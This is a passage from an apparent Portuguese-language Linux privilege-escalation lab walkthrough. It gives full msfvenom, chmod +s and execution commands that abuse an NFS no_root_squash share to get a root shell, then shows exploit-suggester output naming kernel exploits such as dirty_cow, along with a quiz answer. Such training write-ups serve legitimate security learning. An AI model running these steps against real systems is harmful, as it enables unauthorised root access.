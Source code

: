 Ainda usando o usuário root do Kali, gere um payload usando ***msfvenom*** e salve-o no compartilhamento montado (este payload simplesmente chama ***/bin/bash***):

```shell
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```
Ainda usando o usuário root do Kali, torne o arquivo executável e defina a permissão SUID:

```shell
chmod +xs /tmp/nfs/shell.elf
```

De volta à VM Debian alvo, como a conta de usuário com poucos privilégios, execute o arquivo para obter um shell de root:

```shell
/tmp/shell.elf
```
Um shell de usuário root será iniciado.

### Questões:

- a. ***What is the name of the option that disables root squashing?*** *no_root_squash*

## 20 - Kernel Exploits 

Os ***Kernel exploits*** podem deixar o sistema em um estado instável, e é por isso que você devem executados apenas como último recurso.

Execute a ferramenta ***Linux Exploit Suggester 2*** para identificar possíveis explorações do kernel no sistema atual:

```shell
user@debian:~$ perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl

  #############################
    Linux Exploit Suggester 2
  #############################

  Local Kernel: 2.6.32
  Searching 72 exploits...

  Possible Exploits
  [1] american-sign-language
      CVE-2010-4347
      Source: http://www.securityfocus.com/bid/45408
  [2] can_bcm
      CVE-2010-2959
      Source: http://www.exploit-db.com/exploits/14814
  [3] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
  [4] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [5] half_nelson1
      Alt: econet       CVE-2010-3848
      Source: http://www.exploit-db.com/exploits/17787
  [6] half_nelson2
      Alt: econet       CVE-2010-3850
      Source: http://www.exploit-db.com/exploits/17787
  [7] half_nelson3
      Alt: econet       CVE-2010-4073
      Source: http://www.exploit-db.com/exploits/17787
  [8] msr
      CVE-2013-0268
      Source: http://www.exploit-db.com/exploits/27297
```